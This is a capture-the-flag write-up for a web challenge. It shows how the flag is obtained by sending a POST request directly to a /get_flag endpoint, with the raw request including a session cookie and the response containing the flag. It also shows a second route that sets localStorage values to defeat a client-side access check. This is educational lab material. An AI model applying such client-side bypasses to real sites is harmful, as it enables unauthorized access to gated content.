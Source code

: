 Found the JS functions in the in the source code:
```javascript
       const _gtf = function() {
            if (!window._verifyAccess()) return false;
            
            fetch('/get_flag', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                }
            })
            .then(response => response.json())
            .then(data => {
                if (data.flag) {
                    document.getElementById('flag-result').textContent = 'Congratulations! The flag is: ' + data.flag;
                } else {
                    document.getElementById('flag-result').textContent = 'Error: ' + data.error;
                }
            })
            .catch(error => {
                console.error('Error:', error);
                document.getElementById('flag-result').textContent = 'Error retrieving the flag. Please try again.';
            });
        }
```

```http
POST /get_flag HTTP/1.1
Host: 64.225.103.251:5007
Cookie: session=eyJzZXNzaW9uX2lkIjoiMDk5MDA0MzQtZjNjNy00MzFiLWE2ZTQtYzhkYTVlMTViMTM2Iiwic3RhcnRfdGltZSI6MTc0NjExNjU0M30.aBOfvw.HDtWmbob0XAlyclvGZg6a-ncxmU
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://black-pyramid.appsec.nu:8000/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type': 'application/json
```

```http
HTTP/1.1 200 OK
Server: nginx/1.27.4
Date: Thu, 01 May 2025 16:31:07 GMT
Content-Type: application/json
Content-Length: 45
Connection: keep-alive

{"flag":"O24{scr1b3_0f_7h3_h1dd3n_p4pyru5}"}

```

Another way:

We can also find another function that fetches values from localStorage
```javascript
        (function() {
            const _ur = "userRank";
            const _pu = "papyrusUnlocked";
            
            window._checkAccess = function() {
                const a = localStorage.getItem(_ur);
                const b = localStorage.getItem(_pu);
                
                const validOptions = ['visitor', 'acolyte', 'scribe', 'royal_scribe', 'pharaoh', 'deity'];
                const validRanks = [validOptions[2], validOptions[3], validOptions[4]];
                
                if (validRanks.indexOf(a) >= 0 && b === 'true') {
                    document.getElementById('adwall').style.display = 'none';
                    
                    Array.from(document.querySelectorAll('.blurred-content'))
                         .forEach(function(el) { 
                             el.classList.remove('blurred-content'); 
                         });
                    
                    const flagSection = document.querySelector('.flag-container');
                    if (flagSection) flagSection.style.pointerEvents = 'auto';
                }
            };
        })();
```

The function looks for two keys: "userRank" and "papyrusUnlocked"
And we also see the valid options in an array:
```javascript
['visitor', 'acolyte', 'scribe', 'royal_scribe', 'pharaoh', 'deity'];
```

But valid ranks are set in this variable. So the only valid ranks are:  "scribe", "royal_scribe", "pharaoh"
```javascript
const validRanks = [validOptions[2], validOptions[3], validOptions[4]];
```


And this if statement checks if the users rank is within the approved "range" and that the key "papyrusUnlocked" is set to "true"
```javascript
if (validRanks.indexOf(a) >= 0 && b === 'true') {
                    document.getElementById('adwall').style.display = 'none';
                    
                    Array.from(document.querySelectorAll('.blurred-content'))
                         .forEach(function(el) { 
                             el.classList.remove('blurred-content'); 
                         });
                    
                    const flagSection = document.querySelector('.flag-container');
                    if (flagSection) flagSection.style.pointerEvents = 'auto';
                }
```


So let set our localStorage to the approved values
![](../img/AEA_Solved.png)